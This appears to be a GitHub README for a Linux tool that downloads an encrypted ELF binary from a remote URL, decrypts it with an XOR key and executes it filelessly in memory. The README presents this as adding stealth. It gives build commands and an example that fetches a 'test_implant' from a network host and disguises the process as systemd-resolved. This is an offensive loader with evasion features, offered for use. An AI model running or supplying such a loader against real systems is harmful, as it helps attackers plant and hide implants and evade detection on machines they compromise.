 
# RemoteELFMemExec

**RemoteELFMemExec** is a tool designed to download, decrypt, and execute ELF binaries directly in memory from a remote URL. This utility enables the execution of executable files without writing them to disk, leveraging memory-based execution for enhanced stealth and efficiency. The tool uses XOR encryption to securely decrypt the ELF binary before execution.


> **⚠️ Warning:** On legacy systems, such as CentOS 6, it is not possible to execute ELF files directly in memory due to the lack of support for the `memfd_create` function, introduced in Linux 3.17. In these environments, the process downloads the encrypted ELF file to disk, decrypts it, executes it, and then deletes it.

## Compilation

### Debug Mode
```bash

make

```
**⚠️ Warning:** To enable static compilation, you must compile `lcurl` as a static library.
### Static Compilation
```bash

make  static

```
### Legacy Systems
```bash

make  legacy

```
### Static Compilation for Legacy Systems
```bash

make  legacy_static

```
## Usage
```bash

./elfMemExecutor  <Url>  <Key>  <Alias_process>

```
## Example
```bash

./elfMemExecutor  http://192.168.1.190/test_implant.enc  0331afffba74a654b4e8  "/lib/systemd/systemd-resolved"

```
### Example Debug Mode
![image](https://github.com/user-attachments/assets/2d24acdb-6623-438e-904d-55094cf02396)


### Example Static 
![image](https://github.com/user-attachments/assets/6991bee4-2f0e-4d95-8812-7ee810b4afaa)

### Example Legacy 
![image](https://github.com/user-attachments/assets/905d9cad-0181-4b85-b83f-401228839c6c)

